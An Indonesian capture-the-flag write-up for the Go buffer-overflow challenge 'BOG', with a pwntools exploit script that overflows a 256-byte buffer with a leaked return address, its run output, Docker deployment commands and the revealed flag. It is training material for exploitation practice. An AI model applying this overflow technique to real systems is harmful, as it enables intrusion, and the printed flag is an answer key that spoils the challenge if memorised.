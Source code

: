 # BOG (441 Pts)

- [BOG](#bog)
- [Deskripsi](#deskripsi)
- [Konsep soal](#konsep-soal)
- [HINT](#hint)
- [Proof of Concept](#proof-of-concept)
- [Refrensi](#refrensi)

## Deskripsi
Hanya Berbeda Pabrik

Format Flag : Hology4{}

Author : **Dolf7**

## Konsep soal
- Buffer Overflow
- Buffer Overwrite

Merupakan vulnerablity Buffer Overflow yang menggunakan bahasa Go (GoLang) yang menjadi tantangan tersendiri bagi peserta. Selain itu Untuk dapat menetukan berapa banyak buffer yang dibutuhkan digunakan sedikit teknik logika pemrograman. dalam soal ini dibuthkan pengetahuan terhadap bahas GoLang dan keterampilan menggunakan pwntools

## HINT
Tidak ada

## Proof of Concept
```
from pwn import *
p = process('./vuln')

elf = ELF('vuln')

paygo = 56

while 1:
    p.sendline(b'1')
    x2 = p.recvline()
    x3 = p.recvline()
    x2 = int(int(x2[:-1]))
    x3 = int(int(x3[:-1]))
    ab = int((x2^x3)/5)
    if( ab > 256 + paygo + 8):
        break
p.sendline(b'3')
load0 = p.recvline()
load = p64(int(load0[:-1], 16))
buff = (b'A'*(256 + paygo))
payload = buff + load
p.sendline(payload)
p.interactive()
```

ouput :
```
$ python3 solve.py 
dolf@dolf:~/Documents/POROS/Hology4/BOG$ python3 solve.py 
[+] Starting local process './vuln': pid 14406
[!] Did not find any GOT entries
[*] '/home/dolf/Documents/POROS/Hology4/BOG/vuln'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
hology4{GOl4ng_i5_quit3_4l1_right}

unexpected fault address 0xc00002200a
fatal error: fault
[signal SIGSEGV: segmentation violation code=0x2 addr=0xc00002200a pc=0xc00002200a]
```

## Refrensi
- https://dev.to/jlauinger/exploitation-exercise-with-unsafe-pointer-in-go-information-leak-part-1-1kga
  
- https://dev.to/jlauinger/exploitation-exercise-with-go-unsafe-pointer-code-flow-redirection-part-2-5hgm


## Deployment

```
docker build -t bog .
docker run -dp 34465:34465 --name bog bog
crontab /path/to/crontab
```

## Flag
<details>
<summary>Tekan untuk melihat flag</summary>

    hology4{GOl4ng_i5_quit3_4l1_right}

</details>